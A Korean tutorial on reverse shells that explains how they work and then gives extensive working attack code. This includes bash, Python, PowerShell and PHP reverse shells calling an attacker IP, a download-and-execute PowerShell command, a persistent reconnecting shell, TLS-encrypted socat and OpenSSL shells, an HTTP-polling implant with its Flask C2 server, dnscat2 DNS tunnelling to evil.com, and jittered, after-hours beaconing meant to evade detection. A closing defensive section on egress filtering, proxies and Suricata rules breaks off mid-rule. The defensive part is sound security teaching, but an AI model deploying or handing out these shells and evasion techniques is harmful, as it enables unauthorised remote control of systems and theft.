


## 리버스 셸이란?

리버스 셸(Reverse Shell)은 일반적인 원격 접속의 연결 방향을 뒤집는 공격 기법이다. 침해된 시스템이 공격자 시스템으로 먼저 연결을 시도하고, 공격자는 그 연결을 통해 대상 셸에 접근한다. 이런 구조는 현대 네트워크에서 흔한 "인바운드 연결 차단, 아웃바운드 연결 허용" 정책을 우회하기 쉬워 제한된 내부망 침투에서 자주 악용된다.

> **교육적 목적과 윤리적 사용**
>
> 이 글은 리버스 셸의 작동 원리와 방어 방법을 이해하기 위한 교육용 글이다. 모든 예시는 반드시 명시적 권한을 받은 시스템에서만 다뤄야 하며, 무단 침해는 불법이다.

## 리버스 셸의 작동 원리와 네트워크 구조

리버스 셸의 핵심은 전통적인 클라이언트-서버 모델의 역할을 뒤집는 데 있다. 일반적인 원격 접속에서는 공격자가 클라이언트가 되어 대상 시스템의 서비스 포트(예: SSH 22번, RDP 3389번)로 접속을 시도한다. 반면 리버스 셸에서는 대상 시스템이 클라이언트가 되어 공격자가 운영하는 리스너 서버로 능동적으로 연결을 만든다. 이 구조 덕분에 아웃바운드 필터링을 우회하기 쉽고, NAT 환경에서도 접근성을 확보하기 수월하다.

### 리버스 셸의 단계별 작동 과정

리버스 셸 공격은 보통 다음과 같은 순서로 진행되며, 각 단계는 공격의 성공과 지속성에 영향을 준다.

**1. 리스너 설정 (Attacker-side Listener Setup)**

공격자는 자신이 제어하는 시스템(공격자 머신 또는 C2 서버)에서 특정 TCP 또는 UDP 포트를 바인딩해 대상 시스템의 인입 연결을 기다리는 리스너를 실행한다. 이 리스너는 Netcat(nc), Socat, Metasploit의 multi/handler 모듈, 커스텀 소켓 서버 등으로 구현할 수 있다. 포트는 HTTP(80), HTTPS(443), DNS(53)처럼 정상 트래픽으로 위장하기 쉬운 값을 쓰거나, 방화벽 정책상 차단되지 않는 높은 번호(예: 4444, 8080)를 고르기도 한다.

```bash
# Netcat을 사용한 기본 리스너 설정 (포트 4444)
nc -lvnp 4444

# -l: 리스닝 모드 (Listen mode)
# -v: 상세 출력 (Verbose output)
# -n: DNS 해석 비활성화 (No DNS resolution)
# -p: 포트 지정 (Port specification)
```

**2. 페이로드 전달 및 실행 (Payload Delivery and Execution)**

공격자는 대상 시스템에서 리버스 셸 코드를 실행하기 위해 다양한 초기 침투 벡터(Initial Access Vector)를 활용한다. 대표적인 경로로는 웹 애플리케이션 취약점 악용(Remote Code Execution, File Upload, Command Injection), 피싱 메일의 악성 첨부파일, 공급망 공격을 통한 소프트웨어 패키지 변조, 물리적 접근을 통한 USB 악성코드 삽입 등이 있다. 페이로드는 대상 시스템의 운영체제와 환경(Linux, Windows, macOS)에 맞아야 하며, 경우에 따라 실행 권한 확보나 지속성 확보 기법이 함께 필요하다.

**3. 아웃바운드 연결 수립 (Outbound Connection Establishment)**

대상 시스템에서 페이로드가 실행되면 공격자의 리스너 서버로 TCP 또는 UDP 연결을 능동적으로 시도한다. 이 연결은 대상 시스템 기준으로 아웃바운드(Outbound) 트래픽이어서 많은 방화벽 정책에서 기본 허용된다. NAT 환경에서도 세션 테이블이 응답 패킷의 라우팅을 처리하므로 공격자 시스템이 공인 IP를 직접 가지지 않아도 양방향 통신이 가능하다. TCP 3-way handshake가 완료되면 신뢰할 수 있는 스트림 기반 통신 채널이 형성된다.

**4. 표준 입출력 리다이렉션 (Standard I/O Redirection)**

연결이 성공적으로 수립되면 대상 시스템의 셸 프로세스(예: /bin/bash, /bin/sh, cmd.exe, powershell.exe)의 표준 입력(stdin, file descriptor 0), 표준 출력(stdout, file descriptor 1), 표준 에러(stderr, file descriptor 2)가 소켓 파일 디스크립터로 복제된다(dup2 시스템 콜). 그 결과 공격자가 전송한 명령어는 대상 시스템의 셸로 들어가고, 실행 결과는 다시 소켓을 통해 공격자에게 반환된다. 이렇게 원격에서 대화형(Interactive) 셸 환경을 제어할 수 있게 된다.

**5. 대화형 셸 세션 유지 (Interactive Shell Session Maintenance)**

공격자는 수립된 리버스 셸 세션을 통해 대상 시스템에서 임의의 명령어를 실행할 수 있다. 이후 파일 시스템 탐색, 권한 상승 시도, 추가 페이로드 실행, 내부 네트워크 정찰, 민감 데이터 탈취 같은 사후 침투 활동이 이어질 수 있다. 연결이 끊겼을 때 재연결을 시도하는 지속성 메커니즘을 더해 장기간 접근을 유지하기도 한다.

### 바인드 셸과의 비교 분석

리버스 셸과 바인드 셸(Bind Shell)은 모두 원격 셸 접근을 목표로 하지만, 연결 방향과 네트워크 제약에서 근본적인 차이가 있다. 현대 네트워크 환경에서는 일반적으로 리버스 셸이 더 많이 사용된다.

| 비교 항목 | 바인드 셸 (Bind Shell) | 리버스 셸 (Reverse Shell) |
|-----------|------------------------|---------------------------|
| **연결 방향** | 공격자 → 대상 시스템 (Inbound) | 대상 시스템 → 공격자 (Outbound) |
| **포트 개방 위치** | 대상 시스템에서 리스닝 포트 오픈 | 공격자 시스템에서 리스닝 포트 오픈 |
| **방화벽 우회** | 인바운드 필터링에 의해 차단 가능성 높음 | 아웃바운드 허용 정책으로 우회 용이 |
| **NAT 환경** | 포트 포워딩 설정 없이 접근 불가능 | NAT 장비의 세션 테이블 활용으로 접근 가능 |
| **탐지 난이도** | 비정상 포트 오픈으로 쉽게 탐지 (netstat, ss) | 정상 아웃바운드 트래픽으로 위장 가능 |
| **네트워크 가시성** | 대상 시스템의 리스닝 포트 스캔으로 발견 | 능동 스캔으로 발견 불가능 (수동 연결) |
| **사용 사례** | 레거시 시스템, 제한된 환경 | 현대 네트워크, 기업 환경, 클라우드 |



바인드 셸은 대상 시스템에서 특정 포트(예: 31337, 4444)를 바인딩하고 공격자의 연결을 기다리는 방식이다. 공격자는 `nc <target_ip> <port>`로 직접 접속할 수 있지만, 기업 네트워크의 경계 방화벽과 호스트 기반 방화벽이 인바운드 연결을 기본 차단하는 경우가 많아 실효성이 낮다. NAT 환경에서는 대상이 사설 IP를 쓰면 직접 접근이 어렵고, 포트 스캔(nmap, masscan)으로 비정상 리스닝 포트가 드러날 가능성도 크다.

반면 리버스 셸은 대상 시스템이 공격자에게 연결을 시도하므로 스테이트풀(Stateful) 방화벽이 정상적인 아웃바운드 세션으로 처리하기 쉽다. NAT 환경에서도 변환 테이블 덕분에 양방향 통신이 가능하고, 공격자는 능동적인 포트 스캔 없이 연결을 기다리면 된다. 여기에 HTTP/HTTPS 위장이나 암호화가 더해지면 탐지 난도는 더 올라간다.

## 리버스 셸 구현 방식

리버스 셸은 여러 프로그래밍 언어와 네트워크 도구로 구현할 수 있다. 어떤 방식을 택할지는 대상 시스템의 운영체제, 설치된 소프트웨어, 네트워크 제약, 보안 통제 수준에 따라 달라진다. 실제 공격에서는 탐지 회피나 안정성을 고려해 여러 방식이 함께 쓰이기도 한다.

### Bash 기반 리버스 셸

Bash는 대부분의 Linux와 Unix 계열 시스템에 기본 설치된 셸 환경이다. `/dev/tcp/` 특수 파일 디스크립터를 지원하는 버전이라면 별도의 네트워크 도구 없이 Bash만으로 TCP 소켓 연결을 만들 수 있다. 이 방식은 의존성이 적어 리버스 셸 예시에서 자주 등장한다.

**기본 Bash 리버스 셸 원라이너 (One-liner)**

```bash
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1
```

이 예시는 다음과 같은 구조로 동작한다.

- `bash -i`: 대화형(Interactive) 모드로 Bash 셸을 시작하며, `-i` 플래그는 프롬프트를 표시하고 대화형 기능(명령어 히스토리, 탭 완성 등)을 활성화한다.
- `>& /dev/tcp/10.10.10.5/4444`: 표준 출력(stdout, fd 1)과 표준 에러(stderr, fd 2)를 `/dev/tcp/10.10.10.5/4444` 특수 파일로 리다이렉트하며, Bash는 이 경로를 실제 파일이 아닌 TCP 소켓 연결로 해석하여 10.10.10.5의 4444번 포트로 연결을 시도한다.
- `0>&1`: 표준 입력(stdin, fd 0)을 표준 출력이 가리키는 파일 디스크립터(즉, 소켓)로 복제하여 공격자가 전송하는 데이터가 셸의 입력으로 전달되도록 한다.

**공격자 측 리스너 설정**

```bash
# Netcat 리스너 (전통적 방법)
nc -lvnp 4444

# Ncat 리스너 (Nmap 패키지, 더 많은 옵션)
ncat -lvnp 4444 --ssl  # SSL/TLS 암호화 지원

# Socat 리스너 (고급 소켓 릴레이)
socat TCP-LISTEN:4444,reuseaddr,fork -

# Metasploit multi/handler (자동화된 세션 관리)
msfconsole -q -x "use exploit/multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST 10.10.10.5; set LPORT 4444; exploit"
```

**Bash 리버스 셸의 특징과 한계**

특징:
- 외부 의존성 없음: Bash만 있으면 즉시 실행 가능하며, 대부분의 Linux/Unix 시스템에서 작동한다.
- 간결성: 한 줄의 명령어로 구현 가능하여 웹 애플리케이션의 Command Injection 취약점 악용 시 URL 인코딩이 용이하다.
- 은밀성: 별도의 파일 생성 없이 메모리에서만 실행되므로 파일 시스템 기반 탐지를 회피할 수 있다.

한계:
- `/dev/tcp/` 미지원 시스템: Ubuntu의 dash, Alpine Linux의 ash 등 일부 경량 셸은 `/dev/tcp/`를 지원하지 않으며, Bash가 `--enable-net-redirections` 옵션 없이 컴파일되면 작동하지 않는다.
- 불안정한 TTY: 기본 Bash 리버스 셸은 Pseudo-TTY가 할당되지 않아 `sudo`, `su`, `ssh` 같은 대화형 프로그램 실행 시 오류가 발생하며, Python pty 모듈이나 script 명령으로 업그레이드가 필요하다.
- 평문 통신: 암호화되지 않은 평문 통신으로 네트워크 패킷 캡처 시 명령어와 결과가 노출된다.

### Python 기반 리버스 셸

Python은 강력한 소켓 API와 크로스 플랫폼 호환성을 제공해 비교적 안정적인 리버스 셸 예시를 만들기 좋다. Linux 배포판과 macOS에 기본 설치된 경우가 많고, Windows에서도 자동화 도구로 널리 쓰여 접근성이 높은 편이다.

**기본 Python 리버스 셸 (Linux/macOS)**

```python
import socket
import subprocess
import os

def reverse_shell(attacker_ip, attacker_port):
    try:
        # TCP 소켓 생성 및 연결
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))

        # 소켓을 표준 입출력 파일 디스크립터로 복제
        os.dup2(s.fileno(), 0)  # stdin
        os.dup2(s.fileno(), 1)  # stdout
        os.dup2(s.fileno(), 2)  # stderr

        # 대화형 셸 실행
        subprocess.call(["/bin/bash", "-i"])
    except Exception as e:
        # 오류 발생 시 조용히 종료 (탐지 회피)
        pass
    finally:
        s.close()

if __name__ == "__main__":
    reverse_shell("10.10.10.5", 4444)
```

**Windows 환경을 위한 Python 리버스 셸**

```python
import socket
import subprocess
import os

def windows_reverse_shell(attacker_ip, attacker_port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))

        # Windows에서는 cmd.exe 또는 powershell.exe 사용
        # CREATE_NO_WINDOW 플래그로 창 생성 방지
        subprocess.Popen(
            ["powershell.exe", "-NoProfile", "-ExecutionPolicy", "Bypass"],
            stdin=s.fileno(),
            stdout=s.fileno(),
            stderr=s.fileno(),
            creationflags=subprocess.CREATE_NO_WINDOW
        )
    except:
        pass

if __name__ == "__main__":
    windows_reverse_shell("10.10.10.5", 4444)
```

**재연결 기능이 포함된 지속성 Python 리버스 셸**

```python
import socket
import subprocess
import os
import time

def persistent_reverse_shell(attacker_ip, attacker_port, retry_interval=60):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((attacker_ip, attacker_port))

            os.dup2(s.fileno(), 0)
            os.dup2(s.fileno(), 1)
            os.dup2(s.fileno(), 2)

            subprocess.call(["/bin/bash", "-i"])
        except:
            # 연결 실패 시 대기 후 재시도
            time.sleep(retry_interval)
        finally:
            try:
                s.close()
            except:
                pass

if __name__ == "__main__":
    persistent_reverse_shell("10.10.10.5", 4444, retry_interval=300)
```

이 버전은 연결이 끊기거나 실패해도 5분(300초) 간격으로 다시 연결을 시도한다. 네트워크 불안정이나 시스템 재부팅 뒤 재연결이 어떻게 이뤄지는지 보여주는 예시다.

**Python 리버스 셸의 특징**

- 크로스 플랫폼 호환성: Windows, Linux, macOS에서 동일한 코드 구조로 작동하며, 플랫폼별 셸 경로만 변경하면 된다.
- 안정성과 기능성: 에러 핸들링, 재연결 로직, 암호화, 멀티스레딩 등 고급 기능을 쉽게 구현할 수 있다.
- 라이브러리 생태계: pycryptodome(암호화), paramiko(SSH), requests(HTTP) 등 다양한 라이브러리를 활용하여 기능을 확장할 수 있다.
- 난독화 용이: PyInstaller로 독립 실행 파일(EXE)로 패키징하고, PyArmor나 Cython으로 코드를 난독화하여 역분석을 어렵게 만들 수 있다.

### PowerShell 기반 리버스 셸 (Windows)

PowerShell은 Windows 환경의 대표적인 스크립팅 언어이자 관리 도구다. .NET 프레임워크 기능에 폭넓게 접근할 수 있고, Windows 7 이후 버전에 기본 설치된 경우가 많다. 네트워크 기능도 풍부해 Windows 대상 리버스 셸 사례에서 자주 등장한다.

**기본 PowerShell 리버스 셸 원라이너**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.5',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

실제 공격에서는 이 원라이너를 Base64로 인코딩해 명령줄에서 호출하기도 한다.

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5:8000/shell.ps1')"
```

**Nishang PowerShell 리버스 셸**

Nishang은 침투 테스트용 PowerShell 스크립트 모음으로, 리버스 셸 구현 예시도 포함한다.

```powershell
# Invoke-PowerShellTcp.ps1 from Nishang
function Invoke-PowerShellTcp
{
    param(
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true)]
        [Int]
        $Port
    )

    try
    {
        $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the IP address and port are correct and the server is running."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -IPAddress 10.10.10.5 -Port 4444
```

### PHP 웹 셸과 리버스 셸

PHP는 웹 서버 환경에서 널리 쓰여 웹 애플리케이션 취약점(File Upload, LFI, RFI)과 함께 자주 거론된다. 이런 조건에서는 PHP 리버스 셸을 업로드한 뒤 웹 요청을 통해 실행하는 방식이 사용될 수 있다.

**PentestMonkey PHP 리버스 셸**

```php
<?php
set_time_limit(0);
$ip = '10.10.10.5';  // Attacker IP
$port = 4444;         // Attacker Port

$sock = fsockopen($ip, $port);
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open('/bin/bash', $descriptorspec, $pipes, null, null);

if (is_resource($process)) {
    fwrite($pipes[0], "cd /tmp\n");
    fclose($pipes[0]);

    while (!feof($pipes[1])) {
        $output = fgets($pipes[1], 1024);
        fwrite($sock, $output);
    }

    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
}

fclose($sock);
?>
```

이 스크립트는 웹 서버 권한(예: www-data, apache)으로 실행되며, 업로드된 경로로 요청이 들어오면 리버스 셸이 동작하는 구조다.

## 탐지 회피 기법 (Evasion Techniques)

기본적인 리버스 셸은 네트워크 모니터링 도구(IDS/IPS, SIEM), 엔드포인트 탐지 및 응답 솔루션(EDR), 행위 기반 분석(Behavioral Analysis)으로 탐지될 수 있다. 그래서 공격자는 난독화, 암호화, 프로토콜 터널링 같은 기법으로 탐지를 늦추거나 은폐를 시도한다.

### 암호화된 통신 채널

평문 리버스 셸 트래픽은 네트워크 패킷 캡처(Wireshark, tcpdump)와 DPI(Deep Packet Inspection)로 비교적 쉽게 분석된다. 그래서 TLS/SSL을 적용해 통신 내용을 숨기고, 외형상 정상 HTTPS 트래픽처럼 보이게 만들기도 한다.

**OpenSSL 기반 암호화 리버스 셸**

```bash
# 공격자 측 - SSL/TLS 인증서 생성 및 리스너 설정
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes \
    -subj "/C=US/ST=California/L=San Francisco/O=Example Corp/CN=example.com"

openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 대상 측 - 암호화된 리버스 셸
mkfifo /tmp/s
/bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.10.5:443 > /tmp/s
rm /tmp/s
```

이 방법은 포트 443(HTTPS)을 사용해 일반 웹 트래픽과 섞이기 쉽다. 또한 TLS가 적용되므로 DPI 장비가 패킷 내용을 바로 확인하기 어렵다.

**Socat을 이용한 상호 인증 암호화 리버스 셸**

Socat은 양방향 데이터 릴레이 도구로, SSL/TLS 암호화와 클라이언트 인증서 검증을 지원하여 더 강력한 보안을 제공한다.

```bash
# 공격자 측 - 서버 인증서 및 클라이언트 인증서 생성
openssl genrsa -out server.key 2048
openssl req -new -key server.key -x509 -days 365 -out server.crt -subj "/CN=C2Server"
openssl genrsa -out client.key 2048
openssl req -new -key client.key -x509 -days 365 -out client.crt -subj "/CN=ImplantClient"

# 공격자 측 - Socat SSL 리스너 (클라이언트 인증서 요구)
socat OPENSSL-LISTEN:443,reuseaddr,cert=server.crt,key=server.key,cafile=client.crt,verify=1 -

# 대상 측 - Socat SSL 리버스 셸
socat EXEC:'/bin/bash -li',pty,stderr,setsid,sigint,sane \
    OPENSSL-CONNECT:10.10.10.5:443,cert=client.crt,key=client.key,cafile=server.crt,verify=1
```

이 설정은 상호 TLS(Mutual TLS)를 사용해 양쪽이 서로의 인증서를 검증한다. 그만큼 중간에서 트래픽을 가로채 분석하기가 어려워지고, 잘못된 인증서를 제시하는 허니팟(Honeypot)이나 탐지 시스템은 연결 단계에서 걸러질 수 있다.

### HTTP/HTTPS 웹 트래픽 위장

대부분의 기업 네트워크에서 HTTP(80)와 HTTPS(443)는 업무 필수 트래픽으로 취급된다. 그래서 웹 프로토콜을 이용한 리버스 셸은 정상 웹 요청과 섞여 보이기 쉽다.

**HTTP 기반 리버스 셸 (Polling 방식)**

```python
import requests
import subprocess
import time
import base64

C2_SERVER = "http://10.10.10.5:8080"
POLL_INTERVAL = 5  # 5초마다 명령어 확인

while True:
    try:
        # C2 서버에 명령어 요청
        response = requests.get(f"{C2_SERVER}/cmd", timeout=3)

        if response.status_code == 200 and response.text:
            command = base64.b64decode(response.text).decode()

            # 명령어 실행 및 결과 수집
            result = subprocess.run(
                command,
                shell=True,
                capture_output=True,
                text=True,
                timeout=30
            )

            output = result.stdout + result.stderr
            encoded_output = base64.b64encode(output.encode()).decode()

            # 결과를 C2 서버로 전송
            requests.post(
                f"{C2_SERVER}/result",
                data={"output": encoded_output},
                timeout=3
            )
    except:
        pass

    time.sleep(POLL_INTERVAL)
```

이 방식에서는 대상 시스템이 주기적으로 C2 서버에 HTTP GET 요청을 보내 실행할 명령어를 확인하고, 실행 결과를 HTTP POST로 돌려보낸다. 패턴 자체는 일반적인 웹 API 호출과 비슷해 단순 트래픽 분석만으로는 구분하기 어려울 수 있다.

**C2 서버 측 Flask 구현 예시**

```python
from flask import Flask, request
import base64

app = Flask(__name__)
pending_command = ""
command_results = []

@app.route('/cmd', methods=['GET'])
def get_command():
    global pending_command
    encoded = base64.b64encode(pending_command.encode()).decode()
    pending_command = ""  # 명령어 전송 후 초기화
    return encoded

@app.route('/result', methods=['POST'])
def receive_result():
    output = request.form.get('output', '')
    decoded = base64.b64decode(output).decode()
    command_results.append(decoded)
    print(f"[+] Received result:\n{decoded}")
    return "OK"

@app.route('/admin', methods=['GET', 'POST'])
def admin_panel():
    global pending_command
    if request.method == 'POST':
        pending_command = request.form.get('cmd', '')
        return f"Command queued: {pending_command}"
    return '''
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <input type="submit" value="Send">
    </form>
    '''

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

### DNS 터널링 (DNS Tunneling)

극도로 제한된 네트워크 환경에서도 DNS 쿼리는 인터넷 접속에 필수라 차단되지 않는 경우가 많다. 이 특성을 이용하면 서브도메인 쿼리와 TXT 레코드 응답으로 데이터를 주고받을 수 있다.

**DNS 터널링의 작동 원리**

1. 공격자는 도메인(예: `evil.com`)을 등록하고 권한 있는 DNS 서버를 운영한다.
2. 대상 시스템은 명령어를 Base32/Base64로 인코딩하여 서브도메인으로 DNS 쿼리를 전송한다.
   - 예: `ls-2Dal.data1.evil.com` (명령어 `ls -al`을 인코딩)
3. 공격자의 DNS 서버는 쿼리를 수신하고, 실행 결과를 TXT 레코드로 인코딩하여 응답한다.
4. 대상 시스템은 TXT 레코드를 디코딩하여 결과를 확인한다.

**dnscat2를 이용한 DNS 터널링**

```bash
# 공격자 측 - dnscat2 서버 실행
ruby dnscat2.rb evil.com

# 대상 측 - dnscat2 클라이언트 실행
./dnscat evil.com
```

dnscat2는 DNS 프로토콜 위에 암호화된 명령 및 제어 채널을 구축하는 도구로, 파일 전송, 포트 포워딩, 셸 세션 같은 기능을 제공한다.

**DNS 터널링의 특징**

- 은밀성: DNS 트래픽은 일상적인 도메인 조회와 섞여 보여 별도 모니터링이 약한 환경에서는 눈에 띄지 않을 수 있다.
- 낮은 대역폭: DNS 쿼리와 응답의 크기 제한으로 전송 속도가 매우 느리다 (평균 1-10 KB/s).
- 높은 지연시간: 각 명령어 전송마다 DNS 해석 과정을 거쳐야 하므로 대화형 셸에는 적합하지 않다.
- 탐지 가능 신호: 비정상적으로 긴 서브도메인, 높은 빈도의 TXT 레코드 쿼리, 비표준 문자 인코딩 등이 탐지 신호가 될 수 있다.

### 간헐적 연결 및 시간 기반 회피

지속적인 네트워크 연결은 NetFlow 분석, 비콘(Beaconing) 탐지, 장시간 연결 모니터링(Long-lived Connection Detection)으로 포착될 수 있다. 그래서 공격자는 간헐적이고 불규칙한 연결 패턴으로 통계 기반 이상 탐지를 피하려 한다.

**지터(Jitter)를 적용한 불규칙 간격 비콘**

```python
import time
import random
import socket
import subprocess

def beaconing_shell(c2_ip, c2_port, base_interval=300, jitter_percent=30):
    """
    base_interval: 기본 대기 시간 (초)
    jitter_percent: 랜덤 변동 비율 (%)
    """
    while True:
        try:
            # 불규칙한 대기 시간 계산
            jitter = base_interval * (jitter_percent / 100.0)
            sleep_time = base_interval + random.uniform(-jitter, jitter)

            time.sleep(sleep_time)

            # C2 서버 연결 시도
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            s.connect((c2_ip, c2_port))

            # 셸 명령 수신 및 실행
            command = s.recv(4096).decode()
            if command:
                result = subprocess.run(
                    command,
                    shell=True,
                    capture_output=True,
                    text=True,
                    timeout=60
                )
                s.sendall((result.stdout + result.stderr).encode())

            s.close()
        except:
            # 연결 실패는 조용히 무시
            pass

if __name__ == "__main__":
    beaconing_shell("10.10.10.5", 4444, base_interval=600, jitter_percent=40)
```

이 스크립트는 평균 10분(600초) 간격으로 연결하되, ±40%(240초)의 랜덤 변동을 적용한다. 결과적으로 6-14분 사이의 불규칙한 간격으로 비콘이 발생해 고정 간격 탐지 규칙만으로는 식별이 어려워질 수 있다.

**업무 시간 기반 활동 제한**

```python
from datetime import datetime

def is_working_hours():
    """업무 시간 외에만 활동 (평일 18:00-09:00, 주말 전체)"""
    now = datetime.now()
    weekday = now.weekday()  # 0=월요일, 6=일요일
    hour = now.hour

    # 주말 (토요일, 일요일)
    if weekday >= 5:
        return True

    # 평일 야간 (18:00-09:00)
    if hour < 9 or hour >= 18:
        return True

    return False

def time_aware_shell(c2_ip, c2_port):
    while True:
        if not is_working_hours():
            # 업무 시간에는 1시간 대기
            time.sleep(3600)
            continue

        # 비업무 시간에만 연결 시도
        try:
            # ... 리버스 셸 로직 ...
            pass
        except:
            pass

        time.sleep(600)  # 10분 간격
```

이 기법은 보안 관리자가 근무하지 않는 시간대에만 동작해 실시간 대응 가능성을 낮춘다. 주간 트래픽 속에서 이상 징후가 두드러지지 않게 하려는 시도와도 맞닿아 있다.

## 리버스 셸 방어 전략

리버스 셸 공격에 효과적으로 대응하려면 네트워크 경계 통제, 호스트 기반 보호, 행위 기반 탐지, 사고 대응 프로세스를 함께 묶은 다층 방어(Defense in Depth) 전략이 필요하다. 각 방어 계층은 서로를 보완하면서 공격 성공 가능성을 낮추고 탐지와 격리 시간을 줄인다.



### 네트워크 레벨 방어 (Network-Level Defenses)

네트워크 경계 통제는 리버스 셸 대응의 첫 관문이다. 아웃바운드 트래픽을 통제하고 이상 징후를 조기에 식별하면 공격 확산을 줄일 수 있다.

**1. 이그레스 필터링 (Egress Filtering)**

많은 조직이 인바운드 방화벽 규칙에 집중하지만, 리버스 셸 방어에서는 아웃바운드 트래픽에도 엄격한 화이트리스트 정책이 필요하다.

```bash
# iptables 이그레스 필터링 예시 (Linux)
# 기본 정책: 모든 아웃바운드 연결 차단
iptables -P OUTPUT DROP

# 허용할 아웃바운드 연결만 명시적으로 허용
# DNS 서버 (내부 DNS)
iptables -A OUTPUT -p udp -d 192.168.1.10 --dport 53 -j ACCEPT
iptables -A OUTPUT -p tcp -d 192.168.1.10 --dport 53 -j ACCEPT

# HTTP/HTTPS (프록시 서버 경유)
iptables -A OUTPUT -p tcp -d 192.168.1.100 --dport 8080 -j ACCEPT

# NTP 서버 (시간 동기화)
iptables -A OUTPUT -p udp -d 192.168.1.20 --dport 123 -j ACCEPT

# 로깅: 차단된 아웃바운드 연결 기록
iptables -A OUTPUT -j LOG --log-prefix "EGRESS-DROPPED: " --log-level 4
```

Palo Alto, Cisco Firepower, Fortinet FortiGate 등 엔터프라이즈 방화벽에서는 애플리케이션 레이어 제어를 통해 특정 프로토콜과 목적지만 허용하는 세밀한 정책을 수립할 수 있다.

**2. 프록시 서버 강제 경유 (Mandatory Proxy Enforcement)**

모든 웹 트래픽(HTTP/HTTPS)을 프록시 서버를 통해 중계하면 SSL 인터셉션(SSL Inspection)과 URL 필터링을 수행하여 의심스러운 통신을 탐지하고 차단할 수 있다.

Squid 프록시 설정 예시:

```squid
# /etc/squid/squid.conf
# SSL Bump 설정 (HTTPS 검사)
http_port 3128 ssl-bump cert=/etc/squid/ssl/proxy.crt key=/etc/squid/ssl/proxy.key

ssl_bump peek all
ssl_bump bump all

# 차단할 도메인 카테고리 (C2 서버, 익명화 프록시 등)
acl blocked_domains dstdomain "/etc/squid/blocked_domains.txt"
http_access deny blocked_domains

# 허용된 사용자만 프록시 사용 가능
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwd
acl authenticated_users proxy_auth REQUIRED
http_access allow authenticated_users

# 로깅
access_log /var/log/squid/access.log squid
```

**3. DNS 쿼리 모니터링 및 필터링**

내부 DNS 서버 로그를 분석하여 비정상적인 쿼리 패턴을 탐지하고, 알려진 악성 도메인(C2 서버, DGA 도메인)을 차단한다.

BIND DNS 서버 로깅 설정:

```bind
# /etc/bind/named.conf.options
logging {
    channel query_log {
        file "/var/log/bind/query.log" versions 5 size 50m;
        severity info;
        print-time yes;
        print-category yes;
    };
    category queries { query_log; };
};
```

Pi-hole 또는 pfSense의 DNS 필터링 기능을 활용하여 Threat Intelligence 피드를 통합하고, 자동으로 악성 도메인을 차단할 수 있다.

**4. 이상 트래픽 패턴 탐지**

Zeek(구 Bro), Suricata, Snort 등 네트워크 IDS를 배치하면 리버스 셸에서 자주 나타나는 패턴을 탐지할 수 있다.

Suricata 규칙 예시:

```suricata
# 비표준 포트로의 지속 연결
alert tcp $HOME_NET any -> $EXTERNAL_NET ![80,443,53,22] \
    (msg:"Potential Reverse Shell - Persistent connection to non-standard port"; \
    flow:to_server,established; \
    threshold:type limit, track by_src, count 1, seconds 300; \
    classtype:shellcode-detect; \
    sid:1000001; rev:1;)

# 짧은 간격의 반복 연결 (비콘)
alert tcp $HOME_NET any -> $EXTERNAL_NET any \
    (msg:"Beaconing Activity Detected"; \
    flow:to_server,established; \
    threshold:type both, track by_src, count 10, seconds 60; \
    classtype:trojan-activity; \
    sid:1000002; rev:1;)

# Base64 인코딩된 PowerShell 명령어 감지
alert tcp $HOME_NET any -> $EXTERNAL_NET any \
    (msg:"Base64 Encoded PowerShell Command"; \
    flow:to_server,established; \
    content:"powershell"; nocase; \
    content:"-enc"; distance:0; within:20; nocase; \
    classtype:shellcode-detect; \
